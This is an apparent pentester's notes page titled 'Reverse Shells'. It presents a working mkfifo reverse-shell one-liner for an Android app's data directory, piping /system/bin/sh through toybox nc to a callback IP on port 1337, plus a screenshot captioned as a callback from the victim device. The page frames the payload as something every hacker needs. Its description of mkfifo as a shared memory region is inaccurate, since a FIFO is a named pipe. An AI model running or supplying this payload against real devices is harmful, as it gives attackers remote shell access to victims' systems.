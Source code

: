 ```yaml
---
description: 06/17/2024
cover: https://y.yarn.co/3fe0745c-8406-4773-ab65-c27b3b1190ad_text.gif
coverY: -14
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 📵 Reverse Shells

## Every Hacker Needs Good Reverse Shells to Complete the Mission...

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}

{% embed url="https://www.revshells.com" %}

### `mkfifo`

A solid reverse shell and somewhat mandatory one to make living-off-the-land (LOL) easier, is an `mkfifo` reverse shell which is essentially a shared memory region for one or more applications or connections simultaneously.&#x20;

`mkfifo` stands for make first-in-first-out.

**PoC:**

```
"rm /data/data/com.target.application/f;/system/bin/toybox mkfifo /data/data/com.target.application/f;cat /data/data/com.target.application/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc <callback_ip_here> 1337 >/data/data/com.target.application/f"
```

### Result

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption><p>Getting a callback from the victim device</p></figcaption></figure>
